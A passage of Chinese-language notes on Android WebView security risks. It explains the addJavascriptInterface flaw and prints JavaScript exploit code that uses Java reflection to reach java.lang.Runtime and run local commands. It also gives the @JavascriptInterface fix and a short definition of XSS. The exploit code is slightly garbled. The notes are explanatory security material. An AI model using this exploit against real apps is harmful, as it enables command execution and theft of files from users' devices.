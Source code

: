 

具体获取系统类的描述：（结合 Java 反射机制）

- Android中的对象有一公共的方法：getClass() ；
- 该方法可以获取到当前类 类型Class
- 该类有一关键的方法： Class.forName；
- 该方法可以加载一个类（可加载 java.lang.Runtime 类）
- 而该类是可以执行本地命令的

以下是攻击的Js核心代码：

```jsx
function execute(cmdArgs)  
{  
    // 步骤1：遍历 window 对象
    // 目的是为了找到包含 getClass （）的对象
    // 因为Android映射的JS对象也在window中，所以肯定会遍历到
    for (var obj in window) {  
        if ("getClass" in window[obj]) {  

      // 步骤2：利用反射调用forName（）得到Runtime类对象
            alert(obj);          
            return  window[obj].getClass().forName("java.lang.Runtime")  

      // 步骤3：以后，就可以调用静态方法来执行一些命令，比如访问文件的命令
getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  

// 从执行命令后返回的输入流中得到字符串，有很严重暴露隐私的危险。
// 如执行完访问文件的命令之后，就可以得到文件名的信息了。
        }  
    }  
}   
```

- 当一些 APP 通过扫描二维码打开一个外部网页时，攻击者就可以执行这段 js 代码进行漏洞攻击。
- 在微信盛行、扫一扫行为普及的情况下，该漏洞的危险性非常大



#### B 解决办法

Google 在Android 4.2 版本中规定对被调用的函数以 `@JavascriptInterface`进行注解从而避免漏洞攻击





### 8  **Webview使用loadDataWithBaseURL方法加载内容风险**

只加载数据，但是loadData会不会有风险呢？？



### 9 **Webview开启JavaScript接口风险**

xss攻击：

>XSS攻击又称CSS,全称Cross Site Script  （跨站脚本攻击），其原理是攻击者向有XSS漏洞的网站中输入恶意的 HTML 代码，当用户浏览该网站时，这段 HTML 代码会自动执行，从而达到攻击的目的。XSS 攻击类似于 SQL 注入攻击，SQL注入攻击中以SQL语句作为用户输入，从而达到查询/修改/删除数据的目的，而在xss攻击中，通过插入恶意脚本，实现对用户游览器的控制，获取用户的一些信息。 XSS是 Web 程序中常见的漏洞，XSS 属于被动式且用于客户端的攻击方式。
>